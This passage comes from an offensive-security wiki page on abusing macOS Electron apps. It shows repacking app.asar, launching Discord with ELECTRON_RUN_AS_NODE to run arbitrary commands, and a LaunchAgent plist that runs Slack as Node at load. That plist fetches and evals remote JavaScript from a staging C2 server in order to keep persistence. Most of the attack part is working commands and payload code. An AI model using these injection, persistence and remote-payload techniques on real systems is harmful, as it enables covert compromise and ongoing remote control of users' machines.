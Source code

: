 And pack it back after having modified it with:

```bash
npx asar pack app-decomp app-new.asar
```

## RCE with `ELECTRON_RUN_AS_NODE` <a href="#electron_run_as_node" id="electron_run_as_node"></a>

According to [**the docs**](https://www.electronjs.org/docs/latest/api/environment-variables#electron\_run\_as\_node), if this env variable is set, it will start the process as a normal Node.js process.

{% code overflow="wrap" %}
```bash
# Run this
ELECTRON_RUN_AS_NODE=1 /Applications/Discord.app/Contents/MacOS/Discord
# Then from the nodeJS console execute:
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
```
{% endcode %}

{% hint style="danger" %}
If the fuse **`RunAsNode`** is disabled the env var **`ELECTRON_RUN_AS_NODE`** will be ignored, and this won't work.
{% endhint %}

### Injection from the App Plist

As [**proposed here**](https://www.trustedsec.com/blog/macos-injection-via-third-party-frameworks/), you could abuse this env variable in a plist to maintain persistence:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>EnvironmentVariables</key>
    <dict>
           <key>ELECTRON_RUN_AS_NODE</key>
           <string>true</string>
    </dict>
    <key>Label</key>
    <string>com.xpnsec.hideme</string>
    <key>ProgramArguments</key>
    <array>
        <string>/Applications/Slack.app/Contents/MacOS/Slack</string>
        <string>-e</string>
        <string>const { spawn } = require("child_process"); spawn("osascript", ["-l","JavaScript","-e","eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding( $.NSData.dataWithContentsOfURL( $.NSURL.URLWithString('http://stagingserver/apfell.js')), $.NSUTF8StringEncoding)));"]);</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
</dict>
</plist>
```
